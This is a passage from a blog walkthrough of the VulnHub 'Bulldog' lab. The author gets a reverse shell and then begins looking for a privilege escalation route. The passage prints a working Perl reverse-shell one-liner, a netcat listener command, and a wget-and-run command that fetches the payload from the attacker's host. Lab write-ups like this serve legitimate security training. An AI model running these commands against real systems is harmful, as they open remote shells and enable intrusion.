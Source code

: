 1. Make a perl file in our webroot (/var/www/html/)
2. Put perl reverse shell payload into our file (look below)
3. Start our apache2 or python SimpleHTTPServer (*/etc/init.d/apache2 start*)
4. Make the victim download our malicious file via wget from the server & run it.

[Perl shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
{% highlight perl %}

use Socket;$i="192.168.0.213";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};

{% endhighlight %}

`192.168.0.213 - machine for reverse connection (in this case my kali)`

`1234 - port to connect back to` 

We launch netcat listener - `nc -lvp 1234`, download and run the perl file on victim machine using: `pwd && wget 192.168.0.213/shell.pl && perl shell.pl`. *wget* retrieves the file from our webserver and *perl* compiles + runs it. 

<img src="/assets/img/blog/vulnhub-bulldog/Bulldog11.png">

Easy! Time for some privilege escalation.

***

# Escalating privileges from django to root
From doing a `whoami` or `id` command we can see that our shell is running under django user with limited privileges. Escalation is needed. I checked some common directories such as **/var/html/**, **/tmp**, **/etc/**, but got no results. Not finding any system misconfigurations I shift to **/home/** where two folders are present. *Django* (ours) and *bulldogadmin*. *buldogadmin* has a hidden file in its home directory which can be seen using `ls -la` (list all). 
